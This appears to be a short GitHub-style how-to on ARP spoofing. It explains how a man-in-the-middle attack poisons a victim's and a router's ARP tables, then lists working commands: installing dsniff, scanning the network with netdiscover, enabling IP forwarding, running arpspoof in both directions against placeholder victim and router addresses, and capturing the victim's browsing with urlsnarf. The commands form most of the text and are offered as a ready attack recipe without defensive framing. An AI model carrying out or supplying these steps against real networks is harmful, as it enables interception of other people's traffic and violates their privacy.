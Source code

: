 # ARP Spoofing

The first phase of ARP spoofing is to send the victim fake ARP responses by advertising the attacker's MAC address as the routers.

The victim updates the ARP table with the false information so the ARP table now reflects that the attacker's MAC address now maps to the routers IP address.

This allows the victims internet traffic to be sent to the attacker's machine rather than the router.

The attacker will then forward the packets to the router after inspection.

If the attacker also wants to intercept internet traffic intended for the victim, the attacker must also trick the router.

The attacker must create a fake ARP packet indicating that the victim’s IP address maps to the attacker’s MAC address.

This allows the at tacker to intercept and inspect incoming internet traffic and then forwards that traffic to the victim.



### Install dsniff

* `sudo -i`

* `apt-get update`

* `apt-get install dsniff`

### Discover endpoints on local network

* `sudo netdiscover`

### Enable port forwarding on attack box

* `echo 1 > /proc/sys/net/ipv4/ip_forward`

### Generate fake ARP replies to the victim. This disguises the attack box as the router.

* `sudo arpspoof -i eth0 -t <VICTIM_IP> <ROUTER_IP>`

### Generate fake ARP replies to trick the router into believing that you are the victim. This allows you to intercept incoming internet traffic.

* `sudo arpspoof -i eth0 -t <ROUTER_IP> <VICTIM_IP>`

### Extract websites that the victim visits

* `urlsnarf -i eth0`
